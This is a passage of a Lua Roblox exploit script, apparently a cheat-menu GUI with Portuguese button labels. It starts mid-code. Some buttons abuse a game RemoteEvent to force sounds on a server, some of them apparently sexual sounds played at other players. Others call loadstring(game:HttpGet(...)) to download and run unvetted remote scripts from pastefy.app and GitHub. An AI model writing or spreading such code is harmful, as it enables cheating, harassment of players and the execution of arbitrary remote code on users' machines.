 game:GetService("ReplicatedStorage").RE:FindFirstChild("1Gu1nSound1s"):FireServer(unpack(args))
    end
})

MainTab:AddButton({
    Title = "id de menina com safadeza",
    Callback = function()
        print("Botão clicado!")local args = {
    [1] = workspace,
    [2] = 8161174075,
    [3] = 1
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Gu1nSound1s"):FireServer(unpack(args))
    end
})

MainTab:AddButton({
    Title = "id gemido",
    Callback = function()
        print("Botão clicado!")local args = {
    [1] = workspace,
    [2] = 8107899910,
    [3] = 1
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Gu1nSound1s"):FireServer(unpack(args))
    end
})


local MainTab = Window:AddTab({ Title = "scripts v3😈" })

MainTab:AddButton({
    Title = "cleiti brookhaven ",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet("https://pastefy.app/ta8BeBZc/raw"))()
    end
})

MainTab:AddButton({
    Title = "script sus",
    Callback = function()
        print("Botão clicado!")--Made by muscle_legends2021 (Gio)
--YouTube: GioBolqvi

loadstring(game:HttpGet("https://pastefy.app/YZoglOyJ/raw"))()
    end
})

MainTab:AddButton({
    Title = "serpente x",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet("https://raw.githubusercontent.com/err0r129/SerpenteXbetaByDefense129/main/Serpente.Scripts"))()
    end
})

